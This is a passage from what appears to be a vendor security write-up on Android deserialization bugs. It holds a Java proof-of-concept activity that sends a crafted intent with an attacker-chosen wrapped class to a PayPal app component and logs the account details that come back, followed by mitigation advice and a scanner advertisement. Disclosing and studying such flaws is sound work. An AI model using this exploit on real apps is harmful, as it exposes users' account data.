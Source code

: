 ```
    finish();
}


```

Proof of Concept:
-----------------

```
public class MainActivity extends Activity {
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = new Intent("com.paypal.android.lib.authenticator.activity.v2.TouchActivity");
        intent.putExtra("evil", new ParcelableJsonWrapper("com.paypal.android.foundation.presentation.state.AuthRememberedStateManager","{}"));
        startActivityForResult(intent, 0);
    }

    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

        Log.d("evil", "Evil data: " + data.getParcelableExtra("evil").toString());
    }
}


```

As a result, JSON-wrapped user account details appeared in the logs.

1.  Preventing the use of attacker-controlled data to create native pointers includes storing native pointers in Serializable classes (without fields marked as `transient`). It also includes the denying the attacker the ability to control offsets, e.g., “size” values used to create a pointer.
2.  Don’t use parsers with Parcelable classes to dynamically create objects and allow the attacker-controlled class name to be unwrapped. Always use predefined values.

It can be extremely helpful to detect this bug early detection. Oversecured’s mobile app scanner lets users do that and notifies them in the scan report about all the vectors mentioned above. Contact us [here](https://oversecured.com/contact-us), and we can provide you with a demo to try it out.